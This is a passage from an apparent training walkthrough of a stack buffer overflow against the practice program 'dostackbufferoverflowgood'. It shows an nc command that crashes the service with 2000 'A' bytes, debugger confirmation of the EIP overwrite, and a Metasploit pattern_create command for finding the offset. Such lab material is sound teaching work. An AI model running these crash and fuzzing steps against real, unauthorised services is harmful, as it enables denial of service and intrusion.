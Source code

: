 ```bash
luc@kali:~/dostackbufferoverflowgood$ python -c 'print "A"*2000' | nc 192.168.10.129 31337
```

Sending a large payload of 2000 characters crashes the software.

## Crashing with Immunity Debugger attached

![Immunity debugger confirms EIP overwrite](/assets/images/dostackbufferoverflowgood/1.b%20Immunity%20debugger%20confirms%20EIP%20overwrite.png)

Sending the exact same payload with the application running in Immunity Debugger confirms that our payload was the cause of the crash. We can see that it tried to execute [41414141] (`0x41` is `A`) because that part of our payload ended up in EIP.

## Finding the offset

```bash
luc@kali:~/dostackbufferoverflowgood$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000 | nc 192.168.10.129 31337
```
